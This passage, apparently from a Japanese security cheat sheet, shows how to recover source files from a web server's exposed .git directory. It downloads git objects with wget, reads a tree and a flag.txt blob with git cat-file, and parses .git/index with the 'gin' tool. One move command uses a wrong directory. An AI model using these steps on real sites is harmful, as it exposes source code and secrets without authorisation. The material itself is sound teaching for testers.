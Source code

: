   ```powershell
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```

* ツリー323240a3983045cdc0dec2e88c1358e7998f2e39にアクセスする

    ```powershell
    wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```

* データを読み込む（flag.txt）

  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```

### .git/indexからファイル内容を回復する

gitインデックスファイルパーサーを使用します。<https://pypi.python.org/pypi/gin> (Python3)

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

インデックスにリストされているすべてのファイルの名前とSHA1ハッシュを回復し、上記と同じプロセスでファイルを回復します。

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```

## ツール

### 自動回復

